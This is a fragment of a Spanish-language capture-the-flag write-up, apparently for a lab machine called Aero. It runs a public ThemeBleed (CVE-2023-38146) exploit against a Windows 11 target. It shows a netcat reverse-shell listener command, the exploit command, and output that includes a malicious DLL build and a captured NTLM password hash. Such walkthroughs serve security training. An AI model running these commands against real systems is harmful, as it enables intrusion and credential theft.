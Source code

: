 ![](/assets/img/Aero/image_1.png)

## Web Exploitation

He encontrado este `exploit` [https://github.com/Jnnshschl/CVE-2023-38146](https://github.com/Jnnshschl/CVE-2023-38146) el cual `explota` la vulnerabilidad `ThemeBleed` en los temas de `Windows 11`, lo primero que debemos hacer es ponernos en `escucha` por `netcat`

```
# rlwrap -cAr nc -lvnp 4711
```

`Ejecutamos` el `exploit`

```
# python3 themebleed.py -r 10.10.16.29 -p 4711 
2024-10-01 10:22:20,270 INFO> ThemeBleed CVE-2023-38146 PoC [https://github.com/Jnnshschl]
2024-10-01 10:22:20,270 INFO> Credits to -> https://github.com/gabe-k/themebleed, impacket and cabarchive

2024-10-01 10:22:21,047 INFO> Compiled DLL: "./tb/Aero.msstyles_vrf_evil.dll"
2024-10-01 10:22:21,047 INFO> Theme generated: "evil_theme.theme"
2024-10-01 10:22:21,048 INFO> Themepack generated: "evil_theme.themepack"

2024-10-01 10:22:21,048 INFO> Remember to start netcat: rlwrap -cAr nc -lvnp 4711
2024-10-01 10:22:21,048 INFO> Starting SMB server: 10.10.16.29:445

2024-10-01 10:22:21,048 INFO> Config file parsed
2024-10-01 10:22:21,048 INFO> Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
2024-10-01 10:22:21,048 INFO> Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
2024-10-01 10:22:21,049 INFO> Config file parsed
2024-10-01 10:22:21,049 INFO> Config file parsed
2024-10-01 10:22:59,367 INFO> Incoming connection (10.129.229.128,57006)
2024-10-01 10:22:59,617 INFO> AUTHENTICATE_MESSAGE (AERO\sam.emerson,AERO)
2024-10-01 10:22:59,617 INFO> User AERO\sam.emerson authenticated successfully
2024-10-01 10:22:59,617 INFO> sam.emerson::AERO:aaaaaaaaaaaaaaaa:16fda741160bfff54304c03307ae3134:01010000000000008033cf1fdb13db012816647210fb94bb00000000010010007600530056004a005a00510046004600030010007600530056004a005a005100460046000200100043004c004a004600520058006b0074000400100043004c004a004600520058006b007400070008008033cf1fdb13db010600040002000000080030003000000000000000000000000020000008fe7cd3353de385d22afb19eac8fd7e7699d463ad1f6ac47a0cc5666c5d4bb70a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e00320039000000000000000000
2024-10-01 10:22:59,655 INFO> Connecting Share(1:IPC$)
2024-10-01 10:22:59,731 INFO> Connecting Share(2:tb)
```